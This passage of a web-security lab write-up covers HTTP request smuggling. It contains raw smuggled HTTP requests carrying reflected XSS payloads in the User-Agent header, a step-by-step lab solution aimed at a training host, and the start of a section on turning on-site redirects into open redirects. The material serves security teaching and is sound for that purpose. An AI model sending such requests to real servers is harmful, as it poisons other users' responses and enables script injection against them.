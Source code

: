 POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response.

### Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

**Solution**

1. Visit a blog post, and send the request to Burp Repeater.
2. Observe that the comment form contains your *User-Agent* header in a hidden input.
3. Inject an XSS payload into the *User-Agent* header and observe that it gets reflected:

    ```"/><script>alert(1)</script>```

4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:

    ```
    POST / HTTP/1.1
    Host: acbf1f261fe746e8c098bbda004a0071.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 150
    Transfer-Encoding: chunked

    0

    GET /post?postId=5 HTTP/1.1
    User-Agent: a"/><script>alert(1)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    ```

## Using HTTP request smuggling to turn an on-site redirect into an open redirect

Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:

```
GET /home HTTP/1.1
Host: normal-website.com
